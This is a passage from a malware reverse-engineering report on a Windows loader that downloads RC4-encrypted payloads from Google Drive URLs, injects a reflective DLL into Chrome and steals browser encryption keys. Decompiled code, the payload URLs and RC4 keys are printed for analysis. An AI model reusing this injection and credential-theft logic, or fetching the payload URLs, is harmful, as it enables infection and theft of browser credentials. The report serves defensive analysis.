// Checks for "SOFTWARE\VMware, Inc.\VMware Tools"
if (RegOpenKeyExA(
        hKey: 0x80000002, // HKEY_LOCAL_MACHINE
        lpSubKey: "SOFTWARE\\VMware, Inc.\\VMware Tools", 
        ulOptions: 0, 
        samDesired: 0x101, 
        phkResult) == 0) // ERROR_SUCCESS
{
    // VMware Detected: Trigger self-deletion routine
    result = sub_7ffd55b91000();
}
```

##### 3.4.2 Self-Deletion Routine

If a virtual machine is detected in the previous step, the function `sub_7ffd55b91000` is called. This function constructs a command line to delete the malware binary from the disk using cmd.exe.
```c
// sub_7ffd55b91000
GetModuleFileNameA(nullptr, &var_238, 0x104);
GetShortPathNameA(&var_238, &var_238, 0x104);

// Construct command: "/c del [path_to_malware] >> NUL"
lstrcpyA(&var_128, "/c del ");
lstrcatA(&var_128, &var_238);
lstrcatA(&var_128, " >> NUL");

GetEnvironmentVariableA("ComSpec", &var_238, 0x104); // usually cmd.exe

// Execute deletion command hidden
ShellExecuteA(
    hwnd: nullptr, 
    lpOperation: nullptr, 
    lpFile: &var_238, 
    lpParameters: &var_128, 
    lpDirectory: nullptr, 
    nShowCmd: 0 // SW_HIDE
);
// $env:comspec
// C:\Windows\system32\cmd.exe
```

##### 3.4.3 Single Instance Check (Mutex)

If no VM is detected, the malware attempts to create a named mutex `rggmfm`. If this mutex already exists (indicating the malware is already running), the process terminates.

```c
HANDLE hMutex = CreateMutexA(
    lpMutexAttributes: nullptr, 
    bInitialOwner: 1, 
    lpName: "rggmfm"
);

if (GetLastError() == 0xB7) { // ERROR_ALREADY_EXISTS
    CloseHandle(hMutex);
    return; // Exit execution
}
```
##### 3.4.4 Persistence/Update Thread Creation

The malware spawns a new thread pointing to function `sub_7ffd55b919f0` and lowers its thread priority, likely to run as a background worker.
```c
HANDLE hThread = CreateThread(
    lpThreadAttributes: nullptr, 
    dwStackSize: 0, 
    lpStartAddress: sub_7ffd55b919f0, 
    lpParameter: nullptr, 
    dwCreationFlags: 0, 
    lpThreadId
);

SetThreadPriority(hThread, 0xfffffff1); // THREAD_PRIORITY_LOWEST
CloseHandle(hThread);
```

##### 3.4.5 Payload Execution Thread (sub_7ffd55b919f0)

The thread created in the previous step executes the function `sub_7ffd55b919f0`. This function acts as a "watchdog" and loader. It is responsible for waiting for a specific encrypted payload file, decrypting it, and executing it directly from memory (Fileless Execution).

**1. Path Construction and Anti-Sandbox Delay**  
First, the function resolves the path to the current user's `Local AppData` directory using `SHGetSpecialFolderPathA (CSIDL 0x1c)`. It appends the string `\net` to this path.

Before taking any action, the malware sleeps for **30 seconds** (0x7530 ms). This is a simple anti-sandbox technique; many automated sandboxes only analyze a sample for a few minutes, so a long sleep may cause the analysis to time out before malicious activity occurs.
```c
// Resolve %LOCALAPPDATA%
SHGetSpecialFolderPathA(nullptr, &path_buffer, 0x1c, 0); 

// Construct path: %LOCALAPPDATA%\net
strncat(&path_buffer, "\\net", 4);

// Anti-Analysis: Sleep for 30,000 milliseconds (30 seconds)
Sleep(0x7530);
```

**2. File Monitoring and Decryption (RC4)**  
The function enters an infinite loop, constantly checking if the `net` exists. Once found, the file is read into a memory buffer. The malware then calls `sub_7ffd55b93b20` to decrypt this data.

Analysis of `sub_7ffd55b93b20` reveals loops iterating 256 times (0x100) to initialize and swap values in an array, followed by an XOR operation on the data stream. This structure is the signature of the **RC4 stream cipher**.
```c
// Infinite loop waiting for payload
while (true) {
    FILE* fp = fopen(&path_buffer, "rb");
    if (fp) {
        // Read file content into 'encrypted_buffer'
        // ...
        
        // Decrypt the buffer using RC4
        // sub_7ffd55b93b20 implements RC4 KSA and PRGA
        sub_7ffd55b93b20(&rc4_context, encrypted_buffer, file_size);
        
        // ...
    }
    Sleep(1000); // Check again later
}
```
**3. Reflective Loading and Execution**  
Instead of writing the decrypted file back to disk (which would be easy for antivirus to detect), the malware calls `sub_7ffd55b933f0`. This function manually parses the PE headers (`MZ/PE` signature) of the decrypted data and maps the sections into allocated memory. This technique is known as **Reflective DLL Injection**.

Once loaded, the malware resolves the entry point and transfers execution to the payload.
```c
// Manually map the decrypted PE payload into memory
void* loaded_payload = sub_7ffd55b933f0(decrypted_buffer, size);

if (loaded_payload != 0) {
    // Transfer execution to the payload's entry point
    sub_7ffd55b93830(loaded_payload, 1)();
    
    // Cleanup internal structures
    sub_7ffd55b939c0(loaded_payload);
}
```
**4. Forensic Cleanup**  
Finally, regardless of whether execution succeeded or failed, the malware deletes the net file from the disk to remove forensic evidence.
```c
DeleteFileA(&path_buffer); // Deletes %LOCALAPPDATA%\net
```
##### 3.4.6 Environment Setup and String Initialization
The malware initializes its working environment by resolving the path to the current user's Local AppData directory using `SHGetSpecialFolderPathA` (`CSIDL 0x1c`).

It immediately constructs absolute paths for the main payload (`notepad.log`) and a temporary file (`notepad.tmp`). The critical logic occurs at the if statement: the malware checks the status of `notepad.log` on the disk.

- **Condition:** if (__fpecode(...) != 0)
- **Logic:** If notepad.log is **missing** (or invalid), the malware enters the **Download/Execute Phase**.
- **Action:** It constructs the path for the configuration file (`user.txt`) and attempts to open it. This triggers the decryption and download routines analyzed in subsequent sections.

(Note: If `notepad.log` does exist, the code skips to the else block to execute the local payload directly, as discussed in the offline persistence analysis).
```c
SHGetSpecialFolderPathA(nullptr, &pszPath, 0x1c, 0); // CSIDL_LOCAL_APPDATA

// Construct paths for Payload and Update
sprintf(&var_8a8, "%s\\notepad.log", &pszPath);
sprintf(&var_688, "%s\\notepad.tmp", &pszPath);

// Check if 'notepad.log' is missing
if (__fpecode(&var_8a8, 0) != 0) {
    // [INSTALLATION PHASE]
    // File missing -> Construct path to Config
    sprintf(&var_138, "%s\\user.txt", &pszPath);
    
    // Open user.txt to begin decryption and download chain
    result = sub_7ffd55b94b1c(&var_138, "rb");
    
    if (result != 0) {
        // Proceed to decrypt user.txt...
    }
}
```
##### 3.4.7 Configuration Loading (user.txt)

After setting up the environment, the malware checks for the existence of `%LOCALAPPDATA%\user.txt`. This file appears to contain encrypted data (URLs).

**1. File Sizing (sub_7ffd55b93df0)**  
Before reading the file, the malware determines its size. The function `sub_7ffd55b93df0` is a standard wrapper for file positioning. It uses `_lseek_nolock` to move the file pointer to the end (`FILE_END`) to get the size, and then resets it to the beginning (`FILE_BEGIN`).
```c
// Move to end of file to get size
int32_t fileSize = _lseek_nolock(fd, 0, FILE_END);

// Reset pointer to beginning for reading
_lseek_nolock(fd, 0, FILE_BEGIN);
```
The function `sub_7ffd55b94400` is a **memmove** (or memcpy).

**2. Data Parsing and Decryption (sub_7ffd55b911f0)**  
The function `sub_7ffd55b911f0` processes the raw data read from user.txt.
- **Header Separation:** It treats the first 16 bytes (0x10) of the file as a header or key structure (referenced as int128_t in the decompilation).
- **Body Extraction:** It uses the memmove function described above to copy the rest of the file (File Size - 16 bytes) into a new buffer.
- **Decryption:** Finally, it calls `sub_7ffd55b91160`. This function trims any trailing null bytes from the data and then passes the buffer to the **RC4 decryption routine** (`sub_7ffd55b93b20`) identified in previous steps.
```c
// Logic inside sub_7ffd55b911f0

// 1. Extract Header/Key (First 16 bytes)
global_key_data = *buffer; 

// 2. Copy the rest of the file (Payload) to a new buffer
// sub_7ffd55b94400 is effectively memmove()
memmove(dest_buffer, &buffer[16], fileSize - 16);

// 3. Decrypt the payload
// sub_7ffd55b91160 removes nulls and calls RC4
Decrypt_RC4(dest_buffer, fileSize - 16);
```

To validate the decryption logic identified in `sub_7ffd55b911f0`, the contents of the user.txt file were extracted and processed manually.

As observed in the code, the file structure consists of:

1. **Header (Offset 0x00 - 0x10):** The 16-byte RC4 Key.
2. **Body (Offset 0x10 - EOF):** The RC4 Encrypted Data.
Using **CyberChef**, the first 16 bytes were applied as the "Passphrase" (Key) in Hex format, and the remaining file body was used as the Input. The **RC4** recipe successfully decrypted the payload, revealing a list of URLs.

```
b6f2945b6ac1f9a42256423834776d16
```
```
https://drive.google.com/uc?export=download&id=1RSeJEYgqvajlAeEx40-6BZJgmdV23S33 -> main64.log
https://drive.google.com/uc?export=download&id=1PTs95g2gr6dIuO2RqErgGutQZv2Y0g3Y -> net64.log
https://drive.google.com/uc?export=download&id=1EkyeoSdhvGqcEpZkqBUzXnJYPLka7zJc -> app64.log
```

##### 3.4.8 Configuration Parsing and URL Extraction

Following the decryption of user.txt, the malware parses the raw data to extract URLs. The code utilizes a custom string-searching function (`sub_7ffd55b948c0`) to identify delimiters and split the configuration block into usable strings.

**1. Delimiter Identification (0x0D)**  
The helper function `sub_7ffd55b948c0` acts as a standard `strchr` implementation. It scans the decrypted memory buffer for the character `0x0D` (Carriage Return / \r). This indicates that the configuration file is line-separated.
```c
// Helper function to find a specific character (0x0D)
char* delimiter_ptr = sub_7ffd55b948c0(decrypted_buffer, 0x0D);
```

**2. String Splitting and Assignment**  
The malware performs three distinct extraction passes to retrieve three separate URLs. For each pass, it replaces the 0x0D delimiter with a NULL byte (0x00) to terminate the string, copies the URL to a global variable, and advances the pointer by 2 bytes (skipping the \r\n sequence).

The variables map to the URLs as follows:

- **lpszUrlName_1** receives **URL 1** (Target: notepad.log / main64.log)
- **lpszUrlName_2** receives **URL 2** (Target: net / net64.log)
- **lpszUrlName** receives **URL 3** (Target: app / app64.log)

```c
// 1. Find the first delimiter (Carriage Return)
char* split_point = strchr(buffer, 0x0D); 

if (split_point != 0) {
    // 2. Null-terminate to create a valid C-string
    *split_point = 0; 
    
    // 3. Copy the URL to global variable (e.g., lpszUrlName_1)
    strcpy(target_var, buffer); 

    // 4. Advance pointer past \r\n (2 bytes) to find the next URL
    char* next_url = split_point + 2;
    
    // ... Logic repeats for all 3 URLs ...
}
```

##### 3.4.9 Payload Download and Execution Logic

After parsing the configuration, the malware executes a specific sequence of downloads. The execution order is hardcoded and does not follow the order in which the URLs appeared in the text file.
###### Phase 1: Browser Injection Module (app)
The malware processes the 3rd URL (lpszUrlName), targeting the file app64.log (saved locally as `\app`).
- **Target:** `%LOCALAPPDATA%\app`
- **Action:**
    1. **Download:** It downloads the payload using `InternetOpenUrlA` with a hardcoded Chrome User-Agent.
    2. **Target Selection (chrome.exe):** It calls `sub_7ffd55b91470`, which uses CreateToolhelp32Snapshot to iterate through running processes. It specifically searches for **chrome.exe**.
    3. **Process Filtering:** Inside the process search, it opens the process and checks command-line arguments (looking for the string `--type=`) to select the correct Chrome process (e.g., targeting the main process vs. a renderer).
    4. **Injection:** If a valid Chrome Process ID (PID) is found, it calls `sub_7ffd55b915d0`. This function:
        - Acquires `SeDebugPrivilege`.
        - Decrypts the app payload.
        - Locates the export `ReflectiveLoader` within the payload.
        - Uses VirtualAllocEx, WriteProcessMemory, and CreateRemoteThread to inject and execute the payload inside the Chrome process.
          
**For NtQueryInformationProcess**
[PROCESSINFOCLASS - NtDoc](https://ntdoc.m417z.com/processinfoclass)
[systeminformer/phnt/include/ntpsapi.h at master · winsiderss/systeminformer · GitHub](https://github.com/winsiderss/systeminformer/blob/master/phnt/include/ntpsapi.h)
```c
// Target: %LOCALAPPDATA%\app
sprintf(&path_buffer, "%s\\app", &base_path);

// Clear cache to ensure fresh download
DeleteUrlCacheEntryA(lpszUrlName); 

// Download and Verify
if (sub_7ffd55b918a0(&lpszUrlName, &path_buffer) != 0) {
    // Perform check
    uint32_t check_result = sub_7ffd55b91470();
    if (check_result != 0) {
        sub_7ffd55b915d0(&path_buffer, check_result);
        DeleteFileA(&path_buffer);
    }
}

// sub_7ffd55b92c30 (Simplified)
// Allocates memory in the target process (Chrome)
void* remote_mem = VirtualAllocEx(hProcess, NULL, size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

// Writes the malicious DLL into Chrome's memory
WriteProcessMemory(hProcess, remote_mem, payload_buffer, size, NULL);

// Execute the payload via ReflectiveLoader
CreateRemoteThread(hProcess, NULL, 0, remote_mem + reflective_loader_offset, NULL, 0, NULL);

// sub_7ffd55b95258 checks for the export name
if (sub_7ffd55b95258(export_name, "ReflectiveLoader") != 0) {
    // Calculate offset for execution...
}
```
###### Phase 2: Core Loader Injection (net)
The malware processes the 2nd URL (`lpszUrlName_2), targeting the file net64.log (saved locally as `\net`). 
- **Target:** `%LOCALAPPDATA%\net`
- **Action:**
    1. **Download:** The file is downloaded to disk.
    2. **Execution:** The main thread calls the universal loader `sub_7ffd55b91790` with arguments `(1, 1)`.
    3. **Wait Loop:** Immediately after execution, the code enters a loop verifying the existence of `%LOCALAPPDATA%\micro.zip`.

**Analysis of Arguments (1, 1):**
- **Arg1 = 1 (Function):** This instructs the loader to execute **Export Ordinal #1** of the loaded DLL. This export likely contains the extraction logic.
- **Arg2 = 1 (Unload):** This flag tells the loader to **unload and destroy** the DLL immediately after the function returns. This confirms that net is a temporary utility used solely to extract micro.zip.

```c
// Target: %LOCALAPPDATA%\net
sprintf(&path_buffer, "%s\\net", &base_path);
sub_7ffd55b918a0(lpszUrlName_2, &path_buffer);

// Open the downloaded file
file_handle = fopen(&path_buffer, "rb");

if (file_handle) {
    // EXECUTE: Function 1, Unload after use (Transient)
    sub_7ffd55b91790(1, 1, file_handle);
}

// Verification: Wait for the Dropper to create 'micro.zip'
sprintf(&zip_path, "%s\\micro.zip", &base_path);
while (fopen(&zip_path, "rb") == 0) {
    Sleep(1000); // Block until success
}
```
###### Phase 3: Final Payload Execution (notepad)
Finally, the malware processes the 1st URL (lpszUrlName_1), targeting main64.log (saved locally as `\notepad.log`). This stage represents the **Persistent Payload**.
- **Target:** `%LOCALAPPDATA%\notepad.log`
- **Action:**
    1. **Download:** The file is downloaded to disk.
    2. **Execution:** The main thread calls the universal loader sub_7ffd55b91790 with arguments **(0, 0)**.

**Analysis of Arguments (0, 0):**
- **Arg1 = 0 (Function):** This instructs the loader to execute the **Entry Point** (or default export) of the DLL.
- **Arg2 = 0 (Keep Resident):** Crucially, the cleanup flag is set to **0**. This means the `sub_7ffd55b939c0` (Unload) function is **never called**. The payload remains mapped in the process memory, running its malicious routine (likely reading the micro.zip contents extracted in Phase 2).
```c
// Target: %LOCALAPPDATA%\notepad.log
sprintf(&path_buffer, "%s\\notepad.log", &base_path);
sub_7ffd55b918a0(lpszUrlName_1, &path_buffer);

// Open the downloaded file
file_handle = fopen(&path_buffer, "rb");

if (file_handle) {
    // EXECUTE: EntryPoint, Keep in Memory (Persistent)
    sub_7ffd55b91790(0, 0, file_handle);
}
```
##### 3.4.10 Local Execution and Update Mechanism (Offline Path)

If the malware determines that `notepad.log` is already present (indicating a previous successful infection), it skips the download phase and enters the local execution branch. 

**1. Self-Update Mechanism**  
The code first checks for the existence of a temporary file named `notepad.tmp`.
- If `notepad.tmp` exists, the malware calls `CopyFileA` to overwrite the current payload (`notepad.log`) with the new version.
- It then deletes `notepad.tmp` to complete the update process.

**2. Persistent Execution**  
Once the update check is complete, the malware opens the local `notepad.log`. It invokes the Universal Loader (`sub_7ffd55b91790`) with arguments **(0, 0)**.

- **Mode 0:** Execute Entry Point.
- **Cleanup 0:** Do not unload (Keep Resident).
```c
// ELSE Block (Offline / Existing Installation)
else {
    // 1. Check for pending update
    sprintf(&temp_path, "%s\\notepad.tmp", &base_path);
    
    // If update file exists
    if (CheckFileStatus(&temp_path) == 0) {
        // Apply Update: Overwrite .log with .tmp
        CopyFileA(&temp_path, &path_buffer, FALSE); 
        DeleteFileA(&temp_path);
    }

    // 2. Execute Local Payload
    file_handle = fopen(&path_buffer, "rb"); // Open 'notepad.log'
    
    if (file_handle != 0) {
        // Execute Entry Point, Keep Resident (Persistent)
        sub_7ffd55b91790(0, 0, file_handle);
    }
}
```

## Stage 4: Payload Analysis
### 4.1 app (Chrome Injector)
Following the execution flow identified in the main loader (sys.dll), the first stage payload downloaded was app64.log. As analyzed in the loader's code (sub_7ffd55b91790), this file acts as a container consisting of a 16-byte RC4 key followed by the encrypted PE payload.
#### 4.1.1 Decryption and Extraction

To recover the executable, the file was processed using the logic reversed from the loader:
1. **Key Extraction:** The first 16 bytes (0x00 – 0x0F) were extracted to serve as the RC4 passphrase.
2. **Payload Decryption:** The remaining data (0x10 – EOF) was decrypted using the extracted key.

**CyberChef Validation:**  
As shown in **Figure 6**, using the first 16 bytes (5e f7 5f 3c...) as the key successfully decrypts the blob, revealing a valid DOS Header (MZ) and PE structure.

- **Encrypted Size:** 276,496 bytes
- **Header (Key):** 16 bytes
- **Decrypted Size:** 276,480 bytes

```powershell
dir .\app64.log

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        05-12-2025     20:47         276496 app64.log

Get-FileHash .\app64.log

Algorithm       Hash
---------       ----
SHA256          181884C418D559FC9B4FA4BB98375851DD41277DBC88C8B16A1B3A5F4D9C4C80
```

```
5ef75f3c38f97c2130e7dd733981724c
```
#### 4.1.2 File Metadata and Triage

**File Metadata:**
- **File Name:** app.dll (Internal Name: reflective_dll.dll)
- **File Size:** 276,480 bytes (~270 KB)
- **Compilation Timestamp:** 2025-04-17 07:18:39 (UTC)
- **Compiler:** Microsoft Visual Studio 2019 (v16.0)
- **Hashes:**
    - **SHA-256:** D9730FE0741E36E082CF4EDE6676F93A60AC85DEA3670C847B5B78E6E468A0C7
```powershell

dir .\app.dll

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        06-12-2025     10:53         276480 app.dll

Get-FileHash .\app.dll

Algorithm       Hash
---------       ----
SHA256          D9730FE0741E36E082CF4EDE6676F93A60AC85DEA3670C847B5B78E6E468A0C7
```

The decrypted file (app.dll) was analyzed using **Detect It Easy (DIE)**. The metadata confirms it is a 64-bit Dynamic Link Library (DLL) compiled with Microsoft Visual Studio 2019.


By running the **strings** utility on the sample, several notable artifacts become visible. Among them are **hardcoded browser installation paths**, references to **browser profile locations**, and—most importantly—the presence of a Path of  **debug symbol path**. This PDB entry reveals the original internal filename used by the developer.
```
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/
Unknown exception
iostream
iostream stream error
bad cast
bad locale name
ios_base::badbit set
ios_base::failbit set
ios_base::eofbit set
chrome
C:\Program Files\Google\Chrome\Application\chrome.exe
\Google\Chrome\User Data\Local State
Chrome
brave
C:\Program Files\BraveSoftware\Brave-Browser\Application\brave.exe
\BraveSoftware\Brave-Browser\User Data\Local State
Brave
edge
C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
\Microsoft\Edge\User Data\Local State
Edge
Unsupported browser type
"app_bound_encrypted_key":"
%s\chrome.exe
%s\msedge.exe
appkey
E:\Test\AppBound\Bin\reflective_dll.pdb
Copyright (c) by P.J. Plauger, licensed by Dinkumware, Ltd. ALL RIGHTS RESERVED.
```
This indicates that the compiled module was originally named **reflective_dll.dll** (or a similarly named reflective loader component), providing insight into the developer’s working directory and build environment.



The Export Address Table (EAT) confirms the injection technique hypothized in Section 3.4.9.
**Key Exports:**
1. **ReflectiveLoader (Ordinal 1):**
    - This function is the signature of **Reflective DLL Injection**. It allows the DLL to load itself into a host process (Google Chrome) without using the Windows Loader, keeping the malware fileless and invisible to standard process monitoring tools.
2. **init_engine / main_engine:**
    - These exports likely serve as the control interface for the malware's operations.
#### 4.1.3 Reflective DLL Loader Analysis (ReflectiveLoader)

The ReflectiveLoader export is the critical bootstrapping mechanism that allows the malware to be "self-loading." Instead of relying on the Windows OS to load the DLL from disk, this function manually maps the DLL into memory, resolves its own imports, and executes it. This is the definition of **Fileless Execution**.

**1. PEB Traversal and API Hashing**  
The loader avoids using suspicious strings like "kernel32.dll" or "LoadLibrary". Instead, it finds system libraries by walking the **Process Environment Block (PEB)** and calculating hashes of module names.

- **PEB Access (180006440):** It iterates through `gsbase->ProcessEnvironmentBlock->Ldr->InMemoryOrderModuleList` to find loaded modules.    
- **Hashing Algorithm (18000645b):** It uses the **ROR 13** (Rotate Right 13) algorithm to calculate the hash of module names.
- **Module Identification:**
    - 0x6a4abc5b (Line 180006478): Hash for **KERNEL32.DLL**.
    - 0x3cfa685d (Line 18000654a): Hash for **NTDLL.DLL**.
```c
// Iterating the PEB Module List
for (struct _LIST_ENTRY* Flink = gsbase->PEB->Ldr->InMemoryOrderModuleList.Flink; ...) {
    
    // Calculate Hash of DLL Name (ROR 13)
    do {
        rcx_2 = *rdx_1;
        rax_4 = ror(hash, 0xd); // Hashing Algo
        if (rcx_2 >= 'a') rax_4 -= 0x20; // Lowercase normalization
        hash = rax_4 + rcx_2;
    } while (...);

    // Check for KERNEL32.DLL Hash
    if (hash == 0x6a4abc5b) {
        // Parse Exports...
    }
}
```

**2. Manual API Resolution**  
Once Kernel32.dll is found, the loader parses its Export Table to find the addresses of critical functions needed to load the payload. It identifies them using the same ROR-13 hash:
- **0xec0e4e8e** (Line 1800064f1): **LoadLibraryA** (Stored in r13).
- **0x7c0dfcaa** (Line 180006508): **GetProcAddress** (Stored in r15 / arg_10).
- **0x91afca54** (Line 180006519): **VirtualAlloc** (Stored in r14).
- **0x534c0ab8** (Line 180006596): **NtFlushInstructionCache** (From NTDLL).

**3. Memory Allocation and Mapping**  
The loader create a clean space in memory for the DLL to live, mimicking how the OS loads files.
- It calls the resolved VirtualAlloc (r14) to allocate memory with RWX permissions.
- It then copies the DLL headers and sections from the raw injected buffer into this new memory space.
```c
// Allocate executable memory for the image
// r14 = VirtualAlloc
int64_t lpBaseAddress = r14(0, ImageSize, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE);

// Copy headers and sections
do {
    *(dest) = *src;
    ...
} while (i != 1);
```

**4. Import Table & Relocation Fixups**  
Because the DLL was manually loaded at a random memory address (ASLR), it cannot run yet. The loader must fix the internal structures manually.
- **Import Address Table (IAT):** It iterates through the malware's imports. It uses the resolved LoadLibrary (r13) to load required DLLs and GetProcAddress (arg_10) to fill in the function pointers.
- **Base Relocations:** It iterates through the .reloc section. It adds the difference between the preferred base address and the actual allocated address (r9_6) to every absolute pointer in the code.
```c
// Fix Imports
while (ImportsExist) {
    // Resolve API address using GetProcAddress (arg_10)
    void* FunctionAddress = arg_10(hModule, FunctionName);
    *ThunkData = FunctionAddress; // Write address to IAT
}

// Fix Relocations
// r9_6 = Delta (Actual Address - Preferred Address)
while (RelocationsExist) {
    if (Type == HIGHLOW) {
        *(Address) += r9_6; // Patch memory address
    }
}
```

**5. Handoff to Entry Point**  
Finally, with the image mapped, imports resolved, and relocations fixed, the loader flushes the CPU cache and calls the DLL's entry point (DllMain).
- **Flush Cache (18000680b):** Calls NtFlushInstructionCache.
- **Execute (18000681f):** Calls the entry point with DLL_PROCESS_ATTACH (1).
```c

// result = EntryPoint
// rax_7 = ImageBase
result(rax_7, 1, arg1);
```
#### 4.1.4 Entry Point

The DLL is designed to start like any legitimate Windows dynamic library. The Reflective Loader successfully transfers execution to the standard DLL entry point (`_start`), which then routes the call to the custom dispatch logic.
##### 1. Execution Flow Dispatch

The initial functions are standard compiler routines to prepare the C Runtime environment.

| Function         | Address     | Analysis                                                                                                                                                                                |
| ---------------- | ----------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| _start           | 0x180008b10 | Performs stack security initialization and immediately calls dllmain_dispatch.                                                                                                          |
| dllmain_dispatch | 0x1800089dc | The central router that handles the four Windows DLL events. Crucially, it passes the control flow to the malware's custom setup function, filtering for the main process attach event. |
##### 2. Launching the Malicious Engine

The function `sub_180006388` contains the core logic for the DLL's lifecycle, confirming the primary routine is the exported function `init_engine`.

The logic explicitly checks for the **DLL_PROCESS_ATTACH** event (arg2 == 1). Upon a successful process attachment, it immediately calls the exported setup function, **init_engine()**.
```c
// Function: sub_180006388 (Malware Custom Dispatch)
int64_t sub_180006388(int64_t arg1, int32_t arg2, int64_t* arg3) {

    // Check for DLL_PROCESS_ATTACH (arg2 == 1)
    if (arg2 == 1) {
        data_180042220 = arg1; // Store DLL Handle
        
        // *** PRIMARY LAUNCH POINT ***
        init_engine();         
    } 
    // This branch handles DLL_PROCESS_DETACH (arg2 == 0) or unhooking
    else if (arg2 == 6 && arg3 != 0) {
        *arg3 = data_180042220;
    }
    
    return 1;
}
```
#### 4.1.5 Browser Configuration and COM Initialization

The function **init_engine** (0x180004e4c) serves as the orchestration layer for the credential theft operation. This routine performs environment detection, browser identification, and establishes the necessary COM interfaces to interact with Windows Data Protection API (DPAPI) services.
##### 1. Self-Location and Path Resolution
The malware employs a dynamic path resolution strategy to adapt to different installation contexts and avoid hardcoded assumptions about the victim's system configuration.
```c
/// Retrieve the full path of the currently loaded DLL
GetModuleFileNameA(hModule: nullptr, lpFilename: &filename, nSize: 0x104);

// Isolate the directory by truncating at the last backslash
void* rax_2 = strrchr(&filename, 0x5c); // 0x5c = '\'
if (rax_2 != 0)
    *rax_2 = 0; // Null-terminate to extract directory path
```
- The malware uses `GetModuleFileNameA` with a NULL module handle to retrieve its own path
- `strrchr` searches backwards for the last directory separator (`\`)
- By null-terminating at this position, it extracts the parent directory (e.g., `C:\Program Files\Google\Chrome\Application`)
##### 2. Browser Target Enumeration
The malware attempts to identify the host browser by constructing expected executable paths and verifying their existence on the filesystem.

**Target Priority:**
1. **Google Chrome** (Primary Target)
2. **Microsoft Edge** (Secondary Target)
3. **Brave Browser** (Supported but not explicitly checked in this flow)
```c
// Attempt 1: Chrome
_snscanf(&var_238, 0x104, "%s\\chrome.exe", &filename);
char rax_3 = sub_180004d34(&var_238); // Verify file existence

if (rax_3 == 0) {
    // Attempt 2: Edge (fallback)
    _snscanf(&var_238, 0x104, "%s\\msedge.exe", &filename);
    char rax_4 = sub_180004d34(&var_238);
}
```
**File Verification Function (`sub_180004d34`):**
The function `sub_180004d34` wraps a call to the C runtime library's `_stat32` function (visible in the disassembly as `sub_18000fafc`), which retrieves file information and returns 0 if successful [Microsoft Learn](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/stat-functions?view=msvc-170). This is a standard method for verifying file existence without opening the file.
```c
// Wrapper: sub_180004d34
int64_t sub_180004d34(int16_t* arg1) {
    uint128_t var_48[0x3];
    // Returns 0 if file exists, non-zero otherwise
    result = sub_18000fafc(arg1, &var_48) == 0;
    return result;
}
```
##### 3. Browser Configuration Structure Initialization
The malware uses `sub_1800030d0` to populate a **browser-specific configuration structure**, which consolidates all data needed for credential extraction.
```c
int32_t* sub_1800030d0(int32_t* arg1, int64_t* arg2)
```
The function accepts two parameters:
- `arg1`: Pointer to the configuration structure to be initialized.
- `arg2`: Pointer to the detected browser name string ("chrome", "brave", or "edge")

**Browser Detection Logic:**
The function first determines which browser is targeted:
```c
// Dereference if string is stored on the heap
int64_t* str_ptr = browser_name_ptr;
if (browser_name_ptr[3] >= 0x10)
    str_ptr = *browser_name_ptr;

int64_t str_len = browser_name_ptr[2];  // Browser name length

if (str_len == 6 && memcmp(str_ptr, "chrome", 6) == 0) {
    // Chrome detected → initialize Chrome configuration
} 
else if (str_len == 5 && memcmp(str_ptr, "brave", 5) == 0) {
    // Brave detected → initialize Brave configuration
} 
else if (str_len == 4 && memcmp(str_ptr, "edge", 4) == 0) {
    // Edge detected → initialize Edge configuration
} 
else {
    // Unsupported browser → throw exception
    throw std::exception("Unsupported browser type");
}

```
The structure stores multiple browser-specific fields:
```c
struct BrowserConfig {
    uint8_t identifier[20];      // Browser-specific unique ID
    uint8_t metadata[12];        // Additional metadata or hashes

    std::string exe_path;        // Full path to browser executable
    std::string state_path;      // Path to the Local State file
    std::string browser_name;    // Display name (e.g., "Chrome")
};
```
For Chrome, the structure is populated as follows:
```c
// Copy browser identifier (20 bytes)
memcpy(config, 
       "\xe0\x60\x88\x70\x41\xf6\x11\x46\x88\x95\x7d\x86\x7d\xd3\x67\x5b"
       "\xcf\xbe\x3a\x46", 
       20);

// Additional metadata (4 bytes) + numeric fields
strncpy((char*)&config[5], "\rA\x7f@", 4);
config[6] = 0xf30df58a;
config[7] = 0xc85c005a;

// Initialize exe_path and state_path fields
config[0x30] = 0;           // Clear exe_path capacity
config[0x38] = 0xf;         // Set exe_path initial size
config[8]    = 0;           // Clear exe_path buffer

// Store full path to Chrome executable (53 bytes)
sub_180001428(&config[8], 0x35, 0, 
    "C:\\Program Files\\Google\\Chrome\\Application\\chrome.exe");

// Store path to Local State file (36 bytes)
config[0x50] = 0;
config[0x58] = 0xf;
config[0x10] = 0;
sub_180001428(&config[0x10], 0x24, 0,
    "\\Google\\Chrome\\User Data\\Local State");

// Store browser display name
config[0x78] = 0xf;      // Length of exe_path?
config[0x70] = 6;        // Length of "Chrome"
config[0x18] = 0;        // Clear browser_name buffer
memcpy(&config[0x18], "Chrome", 6);
config[0x66] = 0;        // Null terminator
---------snip---------
```
##### 4. COM Initialization and DPAPI Interface Acquisition
After establishing the browser configuration, the malware transitions to the COM subsystem to access Windows Data Protection API (DPAPI) services. This is the critical step that enables decryption of the browser's master encryption key.
```c
// Initialize COM library with Multi-Threaded Apartment model
if (CoInitializeEx(pvReserved: nullptr, dwCoInit: COINIT_APARTMENTTHREADED) >= 0) {
    
    int64_t* comInterface = nullptr;
    GUID riid; // Interface ID will be populated
    
    // Create COM instance using browser-specific CLSID
    HRESULT hr = CoCreateInstance(
        &rclsid,              // Browser-specific CLSID from configuration
        pUnkOuter: 0,         // Not aggregated
        dwClsContext: CLSCTX_LOCAL_SERVER,  // Out-of-process server
        &riid,                // Requested interface ID
        ppv: &comInterface    // Receives interface pointer
    );
    
    if (hr >= 0) {
        // Configure security blanket for DPAPI communication
        hr = CoSetProxyBlanket(
            pProxy: comInterface,
            dwAuthnSvc: RPC_C_AUTHN_DEFAULT,
            dwAuthzSvc: RPC_C_AUTHZ_DEFAULT,
            pServerPrincName: nullptr,
            dwAuthnLevel: RPC_C_AUTHN_LEVEL_PKT_PRIVACY,  // Encrypted
            dwImpLevel: RPC_C_IMP_LEVEL_IMPERSONATE,      // Can impersonate client
            pAuthInfo: 0,
            dwCapabilities: EOAC_STATIC_CLOAKING
        );
